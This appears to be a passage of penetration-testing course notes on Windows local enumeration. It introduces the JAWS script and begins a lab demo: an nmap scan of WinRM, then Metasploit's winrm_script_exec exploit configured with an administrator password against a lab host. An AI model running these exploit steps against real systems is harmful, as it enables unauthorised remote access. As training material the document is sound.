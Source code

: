 Understanding the processes and services running on a target system is critical for identifying misconfigurations, potential targets for further exploitation, or establishing persistence on the system.

### Automating Windows Local Enumeration

- In addition to performing local enumeration manually, we can also automate the process with the help of a few scripts and MSF modules.
- While local enumeration techniques/commands are important to know, as a pentester, we will need to be time efficient. As a result, we will need to learn how to utilize various automated enumeration scripts.
- In addition to automating the process of enumeration information like system information, users & groups etc, these automated enumeration scripts will also provide us with additional information regarding the target system like; privilege escalation vulnerabilities, locally stored passwords etc.

#### Windows Local Enum Scripts

- JAWS - just another Windows (enum) Scirpt - Jaws is a powershell script designed to help pentesters quickly identify potential privilege escalation vectors on Windows systems. It is written using Powrshell 2.0 so it should run on every Windows version since Win 7.
- GitHub Repo: https://github.com/411Hall/JAWS


### Demo: Automating Windows Local Enumeration

#### Step 1: Gaining Initial Access to the Target

First, perform an Nmap scan to identify any services running on the target system, such as **WinRM** (Windows Remote Management):

```bash
nmap -sV -p 5985 demo.ine.local
```

If **WinRM** is available, use **Metasploit** to gain access:

1. Start **Metasploit**:

    ```bash
    msfconsole
    ```

2. Use the **WinRM script execution exploit**:

    ```bash
    use exploit/windows/winrm/winrm_script_exec
    ```

3. Configure the target address and credentials:

    ```bash
    set rhosts demo.ine.local
    set USERNAME administrator
    set PASSWORD tinkerbell
    set FORCE_VBS true
    ```
